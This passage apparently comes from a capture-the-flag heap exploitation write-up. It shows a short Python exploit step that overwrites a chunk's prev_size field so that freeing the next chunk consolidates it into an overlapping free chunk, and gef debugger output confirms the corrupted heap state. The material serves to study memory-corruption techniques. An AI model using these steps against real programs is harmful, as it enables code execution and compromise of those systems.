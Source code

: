 ```py
# heap_list[0] => chunk_1 (0x71)
# this set the prev_size field of chunk_2
new_heap(0x68, b'b' * 0x60 + p64(0x580))

# when we free chunk_2, it consolidates with chunk_0
# therefore, we have a overlapping free chunk with chunk_1
# the resulting big chunk will be put in the unsorted bin
delete_heap(2)
```

Doing so,

```r
gef➤  heap bins
──────────────────────────────────────────────────── Tcachebins for arena 0x7ffff7dcdc40 ────────────────────────────────────────────────────
───────────────────────────────────────────────────── Fastbins for arena 0x7ffff7dcdc40 ─────────────────────────────────────────────────────
Fastbins[idx=0, size=0x20] 0x00
Fastbins[idx=1, size=0x30] 0x00
Fastbins[idx=2, size=0x40] 0x00
Fastbins[idx=3, size=0x50] 0x00
Fastbins[idx=4, size=0x60] 0x00
Fastbins[idx=5, size=0x70] 0x00
Fastbins[idx=6, size=0x80] 0x00
──────────────────────────────────────────────────── Unsorted Bin for arena 'main_arena' ────────────────────────────────────────────────────
[+] unsorted_bins[0]: fw=0x555555757250, bk=0x555555757250
 →   Chunk(addr=0x555555757260, size=0xb80, flags=PREV_INUSE)
[+] Found 1 chunks in unsorted bin.
───────────────────────────────────────────────────── Small Bins for arena 'main_arena' ─────────────────────────────────────────────────────
[+] Found 0 chunks in 0 small non-empty bins.
───────────────────────────────────────────────────── Large Bins for arena 'main_arena' ─────────────────────────────────────────────────────
[+] Found 0 chunks in 0 large non-empty bins.
gef➤  x/10xg  0x0000555555554000 + 0x202060
0x555555756060:	0x0000555555757770	0x0000000000000000
0x555555756070:	0x0000000000000000	0x0000555555757de0
0x555555756080:	0x0000000000000000	0x0000000000000000
0x555555756090:	0x0000000000000000	0x0000000000000000
0x5555557560a0:	0x0000000000000000	0x0000000000000000
gef➤  x/30xg 0x0000555555757770
0x555555757770:	0x6262626262626262	0x6262626262626262
0x555555757780:	0x6262626262626262	0x6262626262626262
0x555555757790:	0x6262626262626262	0x6262626262626262
0x5555557577a0:	0x6262626262626262	0x6262626262626262
0x5555557577b0:	0x6262626262626262	0x6262626262626262
0x5555557577c0:	0x6262626262626262	0x6262626262626262
0x5555557577d0:	0x0000000000000580	0x0000000000000600 <-------------- The prev_size has been overwritten
```
